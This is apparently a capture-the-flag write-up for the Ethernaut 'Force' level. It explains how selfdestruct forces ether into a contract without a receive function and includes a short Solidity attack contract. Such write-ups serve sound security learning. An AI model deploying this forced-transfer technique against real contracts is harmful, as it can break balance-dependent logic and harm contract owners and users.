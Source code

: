 
# Ethernaut Level 9 Force
- This level is Force Problem, where we need to increase the balance of the contract but contract is empty.
- For solving this challenge, we need to understand selfdestruct opcode which is deprecated in solidity recently.
- selfdestruct will send the balance of the account to receiver in argument which doesn't check the receive or fallback present in the contract.


# Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SelfDestruct{
    address owner;
    constructor() payable{
        owner = msg.sender;
    }
    function attack(address   _receipient) payable external{
        require(address(this).balance > 0,"balance must be greater than 0");
        selfdestruct(_receipient);
    }
}
 
```
 



